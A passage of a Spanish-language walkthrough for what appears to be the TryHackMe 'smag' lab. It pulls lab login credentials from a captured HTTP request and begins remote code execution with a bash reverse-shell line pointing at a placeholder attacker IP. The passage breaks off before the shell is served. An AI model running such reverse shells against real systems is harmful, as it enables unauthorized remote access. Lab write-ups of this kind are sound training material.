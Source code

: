 En uno de los paquetes hay una peticion `post` el cual tiene información con credenciales y un subdominio

```java
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
username=helpdesk&password=cH4nG3M3_n0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
## Explotación

```java
username=helpdesk
password=cH4nG3M3_n0w
```
Con las credenciales que encontramos, vamos a loguearnos en la dirección que web que encontramos en los paquetes del `.pcap`

![20231106100958.png](20231106100958.png)

Al loguearnos nos encontramos con un panel donde podemos ejecutar comandos. Vamos a hacerlo como lo hago yo

### RCE

- Primero, creamos un `ìndex.html` donde estara nuestra revershell

```java
❯ nano index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/4242 0>&1
```
- Segundo, en otra terminal iniciamos un servidor en python3
